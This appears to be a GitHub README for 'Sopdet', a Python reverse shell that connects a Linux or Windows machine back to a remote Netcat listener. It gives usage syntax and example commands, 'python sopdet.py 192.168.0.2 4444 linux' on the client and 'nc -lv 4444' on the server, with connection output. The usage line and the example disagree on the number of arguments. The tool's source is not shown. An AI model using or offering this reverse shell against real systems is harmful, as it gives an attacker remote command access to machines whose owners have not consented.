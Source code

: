 # Sopdet
A simple cross-platform reverse shell written in Python

Sopdet is a client-side Python script that when run on a Linux/Unix or Windows system will open up a shell on a remote server running Netcat as a listener on the specified port.

## Usage:
`python sopdet.py <IP address> <port>`

## Example:

### Client-side
`python sopdet.py 192.168.0.2 4444 linux`
`[*] Sobdet client connected to 192.168.0.2`

### Server-side
`nc -lv 4444`
`Connection from 192.168.0.3 65095 received!`
